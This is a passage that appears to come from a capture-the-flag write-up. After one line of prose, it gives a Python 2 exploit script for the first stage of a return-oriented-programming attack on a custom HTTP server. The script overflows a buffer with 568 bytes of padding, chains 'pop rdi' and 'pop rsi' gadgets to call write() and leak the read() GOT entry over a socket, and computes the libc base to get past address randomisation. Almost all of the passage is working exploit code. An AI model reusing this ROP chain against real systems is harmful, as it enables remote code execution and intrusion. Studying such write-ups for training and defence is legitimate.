 Ok, time for first stage. Let's try to leak address of read() and substract read_off (offset) to get libc base address.

```python
import httplib
import struct
import socket
import telnetlib
import urllib

def execute_payload(payload):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("localhost", 9999))
    #s.connect(("10.10.10.89", 1111))
    s.send("GET /{} HTTP/1.1\r\n\r\n".format(urllib.quote_plus(payload)))
    response = s.recv(4096)
    s.close()
    return response

# padding to RIP
padding = "A" * 568

# got and plt
read_got = 0x603088 # read()@GOT address
write_plt = 0x400c50 # write()@PLT address

# offsets
system_off = 0x045390
read_off = 0x0f7250 # read() offset from libc base

# gadgets
poprdiret = 0x4011dd # pop rdi; ret
poprsiret = 0x4011db # pop rsi; pop r15; ret
push_rsp  = 0x023ad1 # push rsp; ret

#### 1 - leak the libc base
buf = ""
buf += padding
buf += struct.pack("<Q", poprdiret)
buf += struct.pack("<Q", 0x4)
buf += struct.pack("<Q", poprsiret)
buf += struct.pack("<Q", read_got)
buf += struct.pack("<Q", 0xF)
buf += struct.pack("<Q", write_plt)

response = execute_payload(buf).split("File not found")[1]           
read_addr = struct.unpack("<Q", response[:8])[0]
print "read() is at", hex(read_addr)

libc_addr = read_addr - read_off
print "libc base is at", hex(libc_addr)
```
